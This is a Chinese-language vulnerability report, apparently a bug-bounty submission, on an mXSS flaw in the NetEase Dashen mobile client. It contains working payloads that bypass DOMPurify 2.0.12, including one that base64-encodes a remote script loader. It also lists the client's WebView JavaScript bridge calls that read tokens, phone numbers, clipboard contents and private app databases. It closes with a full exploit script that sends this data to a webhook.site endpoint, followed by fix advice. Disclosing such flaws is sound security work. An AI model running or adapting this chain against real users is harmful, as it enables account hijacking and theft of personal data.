

## 漏洞名称

> 网易大神手机客户端存在Webview mxss漏洞，串连不安全的JS interface接口，实现用户敏感信息搜集、账户劫持(请求token泄露)和手机文件上传。这个js interface是注入的，每个打开的网站都能够访问到，但是只有163.com域名能合法调用。因此在163.com域名下找到xss就行。

## 漏洞类型
> 客户端漏洞，存储型XSS，文件上传，敏感信息收集

## 危害等级
> 高危

## 漏洞URL

- POC网页 https://m.ds.163.com/square/63ea17eec8dc9d00019266fe/?type=%E6%9C%80%E6%96%B0%E8%AE%A8%E8%AE%BA 使用chrome手机模式查看，打开后在终端自动打印mxss by 0x5r33!!!
- 视频链接：链接：https://pan.baidu.com/s/1ujV4aKjagPCMNhhxELePgg 提取码：1314

## 关键数据包

    payload: <math><mtext><option><FAKEFAKE><option></option><mglyph><svg><mtext><textarea><a title="</textarea><svg onload=alert(document.domain)>">

    payload2：<math><mtext><option><FAKEFAKE><option></option><mglyph><svg><mtext><textarea><a title="</textarea><svg onload=eval(atob('Y29uc29sZS5sb2coJ214c3MgYnkgMHg1cjMzISEhJyk7dmFyIHNjcmlwdD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtzY3JpcHQuc3JjPSdodHRwczovL3VyY2hpbi5ub3Nkbi4xMjcubmV0L3lzJTJGMDcwYjA4MjUyZGIzNDhhMmJlMjU0NDI3MjIzYzEzMTknO2RvY3VtZW50LmdldEVsZW1lbnRzQnlUYWdOYW1lKCdib2R5JylbMF0uYXBwZW5kQ2hpbGQoc2NyaXB0KTs='))>">

    POC: https://m.ds.163.com/square/63ea17eec8dc9d00019266fe/?type=%E6%9C%80%E6%96%B0%E8%AE%A8%E8%AE%BA 使用chrome手机模式查看，打开后在终端自动打印mxss by 0x5r33!!!

## 漏洞描述
网易大神客户端中，没有对用户发帖进行过滤，全靠手机版网页前端进行过滤，由于手机版网页前端使用了不安全的dompurify组件，该组件受到mXSS（突变型XSS）攻击，导致攻击者能够绕过该组件的过滤，从而在网页上嵌入XSS代码。而该手机版网页通过大神内置的webview进行访问后，xss能够获取客户端暴露的webview javascript interface接口。而该类接口暴露了用户敏感信息例如手机号、请求token、粘贴板数据，更为严重的是暴露了客户端的文件读取接口，攻击者能够读取用户手机指定文件，包括外置存储卡文件和网易大神的私有文件，照成更严重的信息泄漏，不外乎大神应用的数据库、sharedprefs等，造成潜在的账户劫持。

### 详细说明
请按照逻辑对漏洞复现进行描述，提供危害说明和测试步骤。若使用工具复现漏洞，应提供工具详情
#### 漏洞触发
1. 进入大神网页版https://ds.163.com/，然后用chrome模拟手机端，刷新后，网页自动跳转到手机端网址：https://m.ds.163.com/

    
    
    选择一个游戏栏目，为了测试选一个冷门游戏"岐风之旅"，因为发帖较少，发的贴子都能置顶。

    

2. 打开最新版网易大神客户端，注册并登录账号。登录后切换到主页，选择游戏圈子"岐风之旅"，并且进行发帖测试。
    
    登录

    

    切换到主页，选择游戏圈子"岐风之旅"栏目

    
    

    发帖测试

    
    

    尝试发送html标签，输入 <b>hello</b>

    

3. 打开第一步中的手机端网页,chrome用切换到手机模式 https://m.ds.163.com/square/63ea17eec8dc9d00019266fe/?type=%E6%9C%80%E6%96%B0%E8%AE%A8%E8%AE%BA 发现 hello 被加粗了，说明该网页能嵌入html代码。

    
    
4. 开始debug，通过chrome插件Untrusted types(domXss调试利器)可以定位到我们的输入<b>hello</b>被直接赋值给了innerHTML。并且通过调用堆栈，笔者定位到前端在某阶段对用户输入进行了过滤，过滤组件采用的是大名鼎鼎的DomPurify，版本为2.0.12。

    

    dompurify的过滤，代码位置：https://g.166.net/res/a19/86e9c93c4b0297736ba7.js text = E.sanitize(text, {FORBID_TAGS: ["style"]})
    
    
    
    查看dompurify的版本为：2.0.12
    
    

5. 查询得知该dompurify版本存在mXSS攻击，mXSS攻击的原理是利用math标签将html标签放置在math协议的作用域下，在html和math作用域之间切换出现不一致，导致出错。具体原理请参考以下两篇文章：

    mxss原理解析：
    https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/

    mxss的利用：
    https://blog.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/#how-to-find-swagger-ui-at-scale

6. 通过上面的第二篇参考文章，笔者很快构造好了xss payload，如下。进行发帖测试后，刷新手机版网页，弹出成功出现。
        
        <math><mtext><option><FAKEFAKE><option></option><mglyph><svg><mtext><textarea><a title="</textarea><svg onload=alert(document.domain)>">
        
    将该payload通过前述步骤发帖：
    
    
    
    下断点调试看到，执行完sanitize函数后，结果依然包含xss payload:
    
    

    弹窗出现：
    
    

7. 客户端webview xss，打开大神客户端，选择任意频道发消息，将该mxss链接发送到群里。受害者点击后，mxss在客户端的webview中执行。

    发送恶意链接：

    

    点击该链接，大神用webview打开，弹框执行：

    

8. 使用chrome device调试大神app的webview，这里需要手机root并且安装WebviewPP Edxposed模块，开启应用webview调试。
    
    usb连接电脑，在chrome上使用chrome://device开启webview调试

    

    调试页面

    

9. 可以查看webview暴露的JavaScript interface，WebViewJavascriptBridge模块。并且在"个人中心-绑定cc页面"找到该模块的完整用法。

    WebViewJavascriptBridge模块

    

    从另一个页面找到该模块的完整用法，该webview的js端为：https://g.166.net/opd/ds-js-sdk/0.16.0/ds-js-sdk.min.js

    

    搜索WebViewJavascriptBridge模块的函数关键字callHandler，定位到该webview js interface的所有用法。

    

10. 漏洞利用：暴露用户敏感信息

        //获取手机客户端用户信息，包括手机号，用户id
        WebViewJavascriptBridge.callHandler("getLogField", {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0},function(e){console.log(e)})

    

11. 漏洞利用：获取token信息

        //获取token信息
        WebViewJavascriptBridge.callHandler("getGodlikeInfo", {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0},function(e){console.log(e)})

    

    利用token信息伪造受害者发消息请求成功：

    

12. 漏洞利用：获取粘贴板内容

        //获取粘贴板内容
        WebViewJavascriptBridge.callHandler("getClipboardData", {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0,params:{type:"text/plain"}},function(e){console.log(e)})

    

13. 漏洞利用：上传文件攻击，上传指定文件，包括受害者数据库，share_prefs等，sdcard上的任何已知文件。由于无法遍历文件夹列表，因此只能指定文件上传，即使这样，也由足够的文件量，例如微信的外置存储相关的特征文件等。

        //下载文件/图片，可以是本地路径，返回文件id，高危！！！！！！
        WebViewJavascriptBridge.callHandler("downloadImage", {iosVersion: "1.5.3",androidVersion: "1.5.3",upgrade: 0,params:{url:"/data/data/com.netease.gl/databases/auth",isShowProgressTips:1}},function(res){
            console.log(res)
            console.log("upload file:", "/data/data/com.netease.gl/databases/auth")
            if(res.code==200){
                var localId = res.result.localId;
                //上传文件/图片，可以是本地路径，高危！！！！！配合上一步的文件id，完成文件上传，上传到网易云中
                WebViewJavascriptBridge.callHandler("uploadImage", {iosVersion: "1.5.3",androidVersion: "1.5.3",upgrade: 0,params:{localId:localId,isShowProgressTips:1,usageType:1}},function(res2){
                    if(res2.code==200){
                        var downloadUrl = res2.result.url
                        console.log("downloadUrl:", downloadUrl)
                    }
                    })
            }
            })

    上传图片文件：

    

    上传非图片文件，例如：/data/data/com.netease.gl/databases/chat_b1fbb501020c46ff88577a3fe103c0ec 为用户的聊天数据库，文件名替换成受害者的uid即可

    

14. 完整的js interface利用列表如下：

        //获取token信息
        WebViewJavascriptBridge.callHandler("getGodlikeInfo", {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0},function(e){console.log(e)})

        //获取手机客户端用户信息，包括手机号，用户id
        WebViewJavascriptBridge.callHandler("getLogField", {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0},function(e){console.log(e)})

        //判断应用是否安装
        WebViewJavascriptBridge.callHandler("launchApp", {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0,params:{iosSchemeProtocol:"",androidPackageName:"com.android.traceur"}},function(e){console.log(e)})

        //启动应用
        WebViewJavascriptBridge.callHandler("launchApp", {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0,params:{iosSchemeProtocol:"",androidPackageName:"im.yixin",iosDownloadUrl:"",iosStoreKitITunesItemId:"",iosStoreKitAffiliateToken:"10lxv5",iosStoreKitCampaignToken:"gl-jssdk"}},function(e){console.log(e)})

        //控制粘贴板内容
        WebViewJavascriptBridge.callHandler("doCopy", {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0,params:{text:"gl-jssdk"}},function(e){console.log(e)})

        //获取粘贴板内容
        WebViewJavascriptBridge.callHandler("getClipboardData", {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0,params:{type:"text/plain"}},function(e){console.log(e)})

        //关注他人
        WebViewJavascriptBridge.callHandler("followUser", {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0,params:{uid:"fb79313773894347bca73424dedf7913"}},function(e){console.log(e)})

        //打开相册
        WebViewJavascriptBridge.callHandler("chooseImage", {iosVersion: "1.5.3",androidVersion: "1.5.3",upgrade: 0,params:{count:9,source:"album",front:1,credentialsType:0,credentialsTips:"",waterMarkText:"",waterMarkPosition:"bottomCenter"}},function(e){console.log(e)})

        //下载文件/图片，可以是本地路径，返回文件id，高危！！！！！！
        WebViewJavascriptBridge.callHandler("downloadImage", {iosVersion: "1.5.3",androidVersion: "1.5.3",upgrade: 0,params:{url:"/sdcard/Pictures/aa.jpg",isShowProgressTips:1}},function(e){console.log(e)})

        //上传文件/图片，可以是本地路径，高危！！！！！配合上一步的文件id，完成文件上传，上传到网易云中
        WebViewJavascriptBridge.callHandler("uploadImage", {iosVersion: "1.5.3",androidVersion: "1.5.3",upgrade: 0,params:{localId:"godlike://resourceid/9f64aebdfff3ef5abd0f1365b08f0fc7",isShowProgressTips:1,usageType:1}},function(e){console.log(e)})

        //或者直接读取文件
        WebViewJavascriptBridge.callHandler("getLocalImageData", {iosVersion: "1.5.3",androidVersion: "1.5.3",upgrade: 0,params:{localId:"godlike://resourceid/6e37e47d1b0874c42a31e80e654b39a7"}},function(e){console.log(e)})

15. 将上述漏洞利用脚本化，将受害者的敏感信息，文件url，粘贴板数据等回传到攻击者控制的burpsuite collaborator。

        // burpsuite collaborator url
        const api_burp = 'http://webhook.site/09f1dce5-7edb-403d-807b-3fe4a54e9d4c'

        console.log("mxss触发 by 0x5r33!!!!")
        // 通过img src来向burpsuite collaborator url外送敏感新信息
        const justSend = async url => {
            var Img = new Image
            Img.src = url
        }

        // base64 加解密
        const encode = str => {
            var b64 = btoa(unescape(encodeURIComponent(str)))
            return b64
        }
        const decode = str => {
            var str = decodeURIComponent(escape(atob(str)));
            return str
        }
        //获取敏感信息
        const sendData = () => {
            WebViewJavascriptBridge.init()
            var usrInfo, tokenInfo, clipData, fileData;
            //获取手机客户端用户信息，包括手机号，用户id
            WebViewJavascriptBridge.callHandler("getLogField", 
                {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0},
                function(e){
                    if(e.code==200){
                        usrInfo = e.result;
                        console.log("获取用户数据成功！！！")
                    }
                }
            )
            //获取token信息
            WebViewJavascriptBridge.callHandler("getGodlikeInfo", 
                {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0},
                function(e){
                    if(e.code==200){
                        tokenInfo = e.result;
                        console.log("获取token成功！！！")
                    }
                    
                }
            )

            WebViewJavascriptBridge.callHandler("getClipboardData", 
                {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0,params:{type:"text/plain"}},
                function(e){
                    if(e.code==200){
                        clipData = e.result;
                        console.log("获取粘贴板成功！！！")
                    }
                }
            )

            //下载文件/图片，可以是本地路径，返回文件id，高危！！！！！！
            WebViewJavascriptBridge.callHandler("downloadImage", 
                {iosVersion: "1.5.3",androidVersion: "1.5.3",upgrade: 0,params:{url:"/data/data/com.netease.gl/databases/auth",isShowProgressTips:1}},
                function(res){
                
                    console.log("upload file:", "/data/data/com.netease.gl/databases/auth")
                    if(res.code==200){
                        var localId = res.result.localId;
                        //上传文件/图片，可以是本地路径，高危！！！！！配合上一步的文件id，完成文件上传，上传到网易云中
                        WebViewJavascriptBridge.callHandler("uploadImage", {iosVersion: "1.5.3",androidVersion: "1.5.3",upgrade: 0,params:{localId:localId,isShowProgressTips:1,usageType:1}},function(res2){
                            if(res2.code==200){
                                var fileData = res2.result
                                console.log("获取数据库文件成功！！！")

                                var finalData = {
                                    usrInfo:usrInfo,
                                    tokenInfo:tokenInfo,
                                    clipData:clipData,
                                    fileData:fileData
                                }
                                // send data
                                var encoded = encode(JSON.stringify(finalData))
                                justSend(api_burp + '?data=' + encoded)
                            }
                            })
                    }
                })
            
        }
        // 判断pc端还是手机端
        const isMobile = /iPhone|iPad|iPod|Android/i.test(navigator.userAgent);
        if (isMobile) {
            /* your code here */
            sendData()
        }       

    完整利用过程请看POC视频

### 漏洞证明
请提供截图或视频
视频链接：链接：https://pan.baidu.com/s/1ujV4aKjagPCMNhhxELePgg 提取码：1314

## 漏洞危害
该漏洞影响最新大神客户端Webview，通过访问含有xss的手机版大神网页，能够在应用内部webview中执行xss，攻击者能够获取受害者手机号、粘贴板数据、请求token、聊天数据、应用database、应用shared_prefs、应用内部所有存储文件、外置存储sdcard指定文件等，造成严重的客户端数据泄漏。

## 修复建议
1. 对手机版网页端https://ds.163.com/ 中的dompurify升级到最新版
2. 对应用内置webview js interface接口WebViewJavascriptBridge，进行更严格的权限控制，特别是文件上传功能downloadImage

